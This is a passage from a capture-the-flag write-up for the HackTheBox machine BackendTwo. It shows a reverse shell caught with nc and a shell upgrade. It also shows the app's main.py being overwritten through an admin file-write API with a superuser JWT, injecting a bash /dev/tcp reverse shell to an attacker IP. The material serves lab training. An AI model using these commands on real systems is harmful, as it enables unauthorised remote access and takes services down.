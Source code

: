 
I’ll trigger it, and it hangs:

    
    
    0xdf@hacky$ curl http://10.10.11.162/api/v1/user/-223
    

At `nc`, there’s a shell:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.162 58622
    bash: cannot set terminal process group (1687): Inappropriate ioctl for device
    bash: no job control in this shell
    To run a command as administrator (user "root"), use "sudo <command>".
    See "man sudo_root" for details.
    
    htb@BackendTwo:~$
    

I’ll do the standard shell upgrade:

    
    
    htb@BackendTwo:~$ script /dev/null -c bash
    Script started, file is /dev/null                                   
    htb@BackendTwo:~$ ^Z                                                
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443                                                        
                reset                                                   
    reset: unknown terminal type unknown
    Terminal type? screen                                               
    htb@BackendTwo:~$
    

#### Overwrite Server

It’s much less stealthy and bad technique, but technically I could just
overwrite `main.py` (or any file) and have that execute. It will bring down
the server for everyone. My new file is just:

    
    
    import os; os.system("bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'")
    

Still, it works:

    
    
    oxdf@hacky$ curl http://10.10.11.162/api/v1/admin/file/$(echo -n "/home/htb/app/main.py" | base64) -H 'Content-Type: application/json' -d '{"file": "import os; os.system(\"bash -c '\''bash -i >& /dev/tcp/10.10.14.6/443 0>&1'\''\")"}' -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUxNzU1MzYxLCJpYXQiOjE2NTEwNjQxNjEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODNlM2VkN2EtZDY2ZC00YTI3LWE5MjItNzAxZmI5ZmRjNzU1IiwiZGVidWciOnRydWV9.oyFkKgOC6zls6IY7i3-IOalxgFWXfyR3SRVlFVovLao'
    {"result":"success"}
    
